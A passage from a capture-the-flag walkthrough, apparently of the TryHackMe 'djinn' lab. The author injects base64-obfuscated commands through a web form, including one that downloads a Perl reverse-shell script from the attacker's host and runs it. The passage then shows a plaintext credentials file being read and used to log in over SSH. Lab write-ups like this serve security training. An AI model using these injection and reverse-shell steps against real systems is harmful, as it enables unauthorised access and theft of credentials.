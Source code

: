 We have the file ready and the encoded comand. We will send it to the web server. `` cmd=`echo d2dldCAxMC43LjAuMjU1OjgwMDAvcGVybC5wbA== | base64 -d` ``. Let's list files again `cmd=ls`. Nice!
```
app.py
app.pyc
perl.pl
static
templates
```

Now we just run the file `cmd=bash perl.pl`. I realized that I could have ommited the dot in the file name for launching directly. Instead we need to encode this command as well as it contains the dot :(.
```
hack3rman@kali:~/TryHackMe/djin$ echo -e  bash perl.pl | base64
YmFzaCBwZXJsLnBsCg==
```
Sending this data to the server in the `wish` page `` cmd=`echo YmFzaCBwZXJsLnBsCg== | base64 -d` ``

Don't forget to fire a listener on the local machine! :)

Now I try to upgrade the shell to a fully working one with `socat`. I think I could have done this from the beginning (instead of perl) but this is how it went today...

```
www-data@djinn:/opt/80$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Good. We are in. In no particular order I usually check these first
1. suid binaries
2. programs running as root
3. /home and /root dirs
4. sudo commands

```
www-data@djinn:/opt/80$ find /home
/home
/home/nitish
/home/nitish/.cache
find: ‘/home/nitish/.cache’: Permission denied
/home/nitish/user.txt
/home/nitish/.gnupg
find: ‘/home/nitish/.gnupg’: Permission denied
/home/nitish/.bashrc
/home/nitish/.dev
/home/nitish/.dev/creds.txt
/home/nitish/.bash_history
/home/sam
```

Usually I am not this lucky but it seems we can read `/home/nitish/.dev/creds.txt`. Intresting. Since we already opened the `ssh` port we might as well try to connect.
```
nitish@djinn:~$ ls -l /home/nitish/user.txt 
-rw-r----- 1 nitish nitish 33 Nov 12 17:29 /home/nitish/user.txt
```
And we get the user flag. :D Cool!
